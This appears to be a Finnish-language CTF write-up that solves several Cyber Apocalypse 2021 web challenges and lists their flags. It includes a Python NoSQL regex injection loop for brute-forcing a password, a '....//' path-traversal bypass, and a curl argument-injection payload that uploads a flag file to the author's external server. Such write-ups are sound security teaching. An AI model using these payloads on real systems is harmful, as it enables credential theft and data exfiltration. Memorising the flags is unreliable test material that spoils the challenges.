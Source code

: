 ```python
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Successful' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}

### ~~Inspector Gadget~~

*Antti*

Flagin osaset helposti saatavilla
1. Sivulla
2. Sourcessa
3. Css
4. Konsoli

CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}

### ~~MiniSTRyplace~~

*Antti*

Hakee kielitiedoston laittamalla `?lang=en.php` url perään.

Parametri sanitoidaan korvaamalla kaikki `../` tyhjällä tekstillä.

Tämän voi ohittaa laittamalla kaiken tuplasti `?lang=....//....//flag`

CHTB{b4d_4li3n_pr0gr4m1ng} 

### ~~Caas~~

*Antti*

Sivulle lähetetään urli jonka se curlaa "statuscheck",
php suorittaa curl komennon johon lisätään tää url,
se sanitoidaan konsoli komentojen varalle servun puolelle
ja clientside tarkistaa väärien merkkien varalle.

Manuaalisesti voidaan lähettää esimerkiksi tällänen payload ip fieldissä
joka lähettää tiedoston omalle servulle
`-F "file=@../flag" http://antti.codes:1337/file`

CHTB{f1le_r3trieval_4s_a_s3rv1ce}

### ~~E.Tree~~

*Antti*

Tehtävänä on saada flagi XML tiedoston sisältä ilman että sitä näkee.
Esimerkki tiedostosta tiedämme, että flagi on kahdessa osassa ja nimellä `selfDestructCode`.
Nettisivulla voimme hakea onko staff memberiä olemassa.
Manuaalisesti lähettämällä invalidi pyyntö näemme miten tietoa haetaan:
